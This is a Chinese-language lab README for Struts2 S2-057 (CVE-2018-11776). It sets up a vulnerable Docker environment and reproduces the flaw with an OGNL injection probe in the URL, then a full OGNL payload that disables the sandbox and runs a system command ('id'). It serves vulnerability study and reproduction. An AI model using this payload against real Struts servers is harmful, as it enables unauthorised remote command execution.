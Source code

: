 # Struts2 S2-057 远程命令执行漏洞（CVE-2018-11776）

当Struts2的配置满足以下条件时：

 - alwaysSelectFullNamespace值为true
 - action元素未设置namespace属性，或使用了通配符

namespace将由用户从uri传入，并作为OGNL表达式计算，最终造成任意命令执行漏洞。

影响版本: 小于等于 Struts 2.3.34 与 Struts 2.5.16

漏洞详情: 

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## 漏洞环境

启动满足条件的 Struts 2.3.34 环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/showcase/`，将可以看到Struts2的测试页面。

## 漏洞复现

测试OGNL表达式`${233*233}`：

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

可见233*233的结果已返回在Location头中。

使用[S2-057原理分析与复现过程（POC）](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)中给出的执行任意命令的OGNL表达式：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

可见，id命令已成功执行：

![](2.png)
